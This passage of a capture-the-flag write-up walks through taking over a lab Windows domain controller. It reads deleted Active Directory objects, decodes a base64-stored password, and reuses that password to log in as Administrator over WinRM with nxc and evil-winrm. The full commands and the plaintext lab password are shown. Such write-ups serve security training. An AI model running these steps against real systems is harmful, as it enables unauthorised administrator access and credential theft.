https://github.com/ivanversluis/pentest-hacktricks/blob/master/windows/active-directory-methodology/privileged-accounts-and-token-privileges.md#ad-recycle-bin 

This group gives you permission to read deleted AD object. Something juicy information can be found in there

```bash
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```



we found the encoded password, and as the Email was saying the TempAdmin account is using default administrator’s password

```bash
echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d
```



i checked this password against the Administrator user

```bash
sudo nxc winrm 10.10.10.182 -u Administrator -p 'baCT3r1aN00dles'
```



Bingo~~, let’s login using the creds

```bash
evil-winrm -i 10.10.10.182 -u Administrator -p baCT3r1aN00dles
```

